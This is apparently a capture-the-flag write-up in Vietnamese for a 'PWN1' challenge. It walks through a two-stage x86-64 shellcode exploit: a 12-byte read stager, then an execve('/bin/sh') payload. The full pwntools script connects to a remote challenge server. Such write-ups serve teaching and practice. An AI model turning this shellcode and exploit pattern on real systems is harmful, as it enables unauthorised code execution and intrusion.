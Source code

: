 # PWN1

- mấy chall trước chỉ làm nóng ,đến chall này mới thật sự căng

## Ida 

```c 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *buf; // [rsp+0h] [rbp-10h]

  setup(argc, argv, envp);
  buf = mmap((void *)0x1337000, 0x1000uLL, 7, 33, -1, 0LL);
  puts("Let warm up a bit with shellcode , shall we?");
  read(0, buf, 0xCuLL);
  puts("OK let see how your shellcode work!!!!");
  ((void (*)(void))buf)();
  return 0;
}
```

## Analysis
- thật sự lúc mới làm mình khá rối vì thấy NX mở, ý tưởng ban đầu của là sử dụng syscall mprotect để tạo 1 vùng địa chỉ execute được, nhưng chall chỉ giới hạn 12byte và ko có syscall sẵn nên chuyện đó bất thành
- đến tối thì nghe nói chall này ko khó thì mình xem lại, nhận ra địa chỉ thằng buf là 0x1337000 có quyền execute, lợi dụng việc này mình thực thi syscall read để viết được nhiều hơn, chú ý là tối ưu shellcode cho vừa 12byte nha

```python 
shellcode = asm(
    '''
    xor edi ,edi
    mov rsi, rax          
    mov rdx, rax                     
    xor eax, eax                        
    syscall
    ''', arch = 'amd64'
)
```
- sau đó ta nhập shellcode thực thi syscall execute để lấy shell thôi, nhớ padding qua phần shellcode read trước đó

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pwn1")

context.binary = exe

# p = process([exe.path])
# gdb.attach(p, gdbscript = '''
# b*main+132
# c
# ''')

# input()

p = remote("103.162.14.116", 20001)

shellcode = asm(
    '''
    xor edi ,edi
    mov rsi, rax          
    mov rdx, rax                     
    xor eax, eax                        
    syscall
    ''', arch = 'amd64'
)

shellcode1 = asm(
    '''
    mov rbx, 29400045130965551
    push rbx

    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x3b
    syscall
    ''', arch = 'amd64'
)

p.send(shellcode)
p.send(b'a'*0xc + shellcode1)

#     mov rdi, 0                       
#     mov rsi, 0x1337000           
#     mov rdx, 0x100                       
#     mov rax, 0x0                        
#     syscall


p.interactive()
```

## FLAG

![image](https://github.com/gookoosss/CTF/assets/128712571/83751723-335a-41b8-99cb-e4701b7ff7f5)
